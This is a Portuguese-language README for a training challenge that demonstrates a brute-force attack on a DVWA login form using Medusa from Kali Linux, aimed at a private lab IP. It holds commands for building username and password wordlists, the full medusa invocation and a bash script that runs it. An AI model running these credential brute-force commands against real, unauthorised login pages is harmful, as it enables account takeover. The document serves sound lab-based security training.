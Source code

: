 # medusa-http-bruteforce
Brute-force HTTP form attack using Medusa against DVWA — wordlists, scripts and screenshots.

# Simulating a Brute Force Password Attack with Medusa and Kali Linux

## Resumo
Projeto realizado como entrega do desafio. O objetivo é demonstrar um ataque de força-bruta a um formulário HTTP usando a ferramenta **Medusa** contra uma aplicação vulnerável (ex.: DVWA). O repositório contém as wordlists usadas, o comando/script executado e evidências (capturas de tela).

---

## Estrutura do repositório

medusa-http-bruteforce/
├── README.md
├── users.txt
├── pass.txt
├── comando-medusa.txt # comando usado (texto)
├── script.sh # script executável (opcional, Linux)
└── images/
├── tela1-configuracao.png
└── tela2-resultado.png


---

## Pré-requisitos
- Máquina com Kali Linux (ou outra distro Linux) ou Windows com medusa instalado.
- Medusa instalado (`apt install medusa` em Kali).
- Acesso à máquina alvo (DVWA) na mesma rede (ex.: `192.168.x.x`).

---

## Wordlists
- `users.txt` — lista de nomes de usuário (um por linha).
- `pass.txt` — lista de senhas (um por linha).

Exemplo:

echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt


---

## Comando usado
Arquivo: `comando-medusa.txt`

medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http
-m FORM:"username=^USER^&password=^PASS^&Login=Login"
-m DENY-SIGNAL:"Login failed" -t 6


**Observações importantes sobre o formato do comando**
- `^USER^` e `^PASS^` são **placeholders do Medusa** — o Medusa substitui esses tokens pelos valores da wordlist.
- O trecho com `&` separa campos do formulário (`username=...&password=...`). Em terminais diferentes, o `&` pode precisar ser protegido/escapado. Veja a seção *Escaping & placeholders* mais abaixo.

---

## Script executável (Linux)
Se desejar automatizar, use `script.sh`:

```bash
#!/bin/bash
# script.sh - Executa Medusa com wordlists em mesma pasta
TARGET="192.168.56.102"
USERS="users.txt"
PASS="pass.txt"

medusa -h "$TARGET" -U "$USERS" -P "$PASS" -M http \
-m FORM:"username=^USER^&password=^PASS^&Login=Login" \
-m DENY-SIGNAL:"Login failed" -t 6

